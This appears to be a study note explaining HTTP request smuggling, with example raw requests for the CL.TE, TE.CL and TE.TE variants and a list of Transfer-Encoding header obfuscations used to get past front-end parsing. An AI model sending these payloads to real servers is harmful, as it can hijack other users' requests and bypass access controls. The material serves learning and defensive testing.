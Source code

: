 # Request smuggling 

At this point one should understand what reverse proxy, load balancing is, so basically when the frontend and the backend server processes http requests differently based on the Content-Length and Transfer-Encoding headers http request smuggling arises.

Example of content length

```
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

Example of transfer encoding

```
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b
q=smuggling
0
```

## CL.TE

Frontend server uses Content-Length and backend server uses Transfer-Encoding essentially request can be smuggled like this

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

# TE.CL

Frontend server uses Transfer-Encoding and backend server uses Content-Length essentially request can be smuggled like this

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

Always remember that a line break is always \r\n ie CRLF


# TE.TE

Both frontend and backend servers use Transfer-Encoding but one of them can be processed not to process the request in such a scenario we can use the following bypasses

Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked

The attack is pretty easy to understand but its pretty hard to find tho...

